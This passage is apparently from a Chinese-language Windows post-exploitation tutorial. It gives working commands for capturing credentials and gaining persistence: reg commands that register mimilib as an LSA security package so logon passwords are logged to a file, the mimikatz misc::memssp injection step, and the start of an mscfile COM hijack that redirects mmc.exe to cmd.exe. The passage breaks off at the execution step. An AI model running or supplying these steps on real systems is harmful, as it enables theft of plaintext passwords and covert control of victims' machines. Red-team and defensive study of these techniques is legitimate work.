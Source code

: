 2.查看Security Packages

    
    
    reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

3.修改Security Packages值

    
    
    reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ

![]()

密码会保存在:

    
    
    C:\Windows\System32\kiwissp.log

![](https://gitee.com/fuli009/images/raw/master/public/20210808101325.png)

会产生事件ID为4657的日志。

## 2.2 内存加载

    
    
    privilege::debugmisc::memssp

  

当用户登录的时候密码会储存在

    
    
    C:\Windows\system32\mimilsa.log

# 0x03 com劫持

Microsoft 组件对象模型 (COM) 是一个独立于平台、分布式、面向对象的系统，用于创建可以交互的二进制软件组件。

我们可以更改事件管理器，使其打开启动我们的二进制文件。

修改

    
    
    HKCU\SOFTWARE\Classes\mscfile\shell\open\command

将原来的

    
    
    %SystemRoot%\system32\mmc.exe "%1" %*

修改为：

    
    
    C:\windows\system32\cmd.exe

执行：

    